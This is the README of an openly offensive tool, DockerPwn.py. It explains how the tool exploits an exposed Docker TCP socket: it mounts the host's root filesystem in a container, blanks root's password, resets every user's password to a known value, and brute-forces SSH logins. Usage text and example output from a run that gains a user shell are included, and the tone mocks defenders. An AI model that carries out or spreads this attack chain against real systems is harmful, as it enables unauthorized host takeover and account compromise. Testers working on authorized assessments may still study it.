 # DockerPwn.py

!!! CHECK OUT THE WIP BRANCH FOR A MORE MODULAR, PRETTY EXPERIENCE. !!!
!!! WHEN FULLY TESTED, WILL BE MERGED TO MASTER !!!

Automation for abusing an exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the host's root filesystem mounted,
allowing arbitrary read and write of the host filesystem (which is bad).

Once created, the script will empty the password requirement for 'root', and will alter any user
with a valid Unix password to have a password of 'DockerPwn'

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn', and a shell will be spawned. 

## Roadmap:

Utilize the limited command execution via Paramiko to get a better shell, and automatically escalate to root.


## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
 ```
## Example Output:

```
Dylans-MacBook-Pro:~ dylan$ /usr/local/bin/python3 /Users/dylan/Documents/DockerPwn.py --target 192.168.0.20 --port 2375

[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c!

[+] Starting container 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID bc5ee929577554b9bc573b33c4a7e811542657a6aaeba6791d07bbdcc602103f!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: root daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats nobody systemd-network systemd-resolve syslog messagebus _apt lxd uuidd dnsmasq landscape pollinate sshd dylan

[+] OK, looking good. Attempting to open shell as root. This may take a minute or two.

[-] Login failed for root
[-] Login failed for daemon
[-] Login failed for bin
[-] Login failed for sys
[-] Login failed for sync
[-] Login failed for games
[-] Login failed for man
[-] Login failed for lp
[-] Login failed for mail
[-] Login failed for news
[-] Login failed for uucp
[-] Login failed for proxy
[-] Login failed for www-data
[-] Login failed for backup
[-] Login failed for list
[-] Login failed for irc
[-] Login failed for gnats
[-] Login failed for nobody
[-] Login failed for systemd-network
[-] Login failed for systemd-resolve
[-] Login failed for syslog
[-] Login failed for messagebus
[-] Login failed for _apt
[-] Login failed for lxd
[-] Login failed for uuidd
[-] Login failed for dnsmasq
[-] Login failed for landscape
[-] Login failed for pollinate
[-] Login failed for sshd
[+] Login succeeded for dylan!

DockerPwn@192.168.0.20> id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

DockerPwn@192.168.0.20> 
```
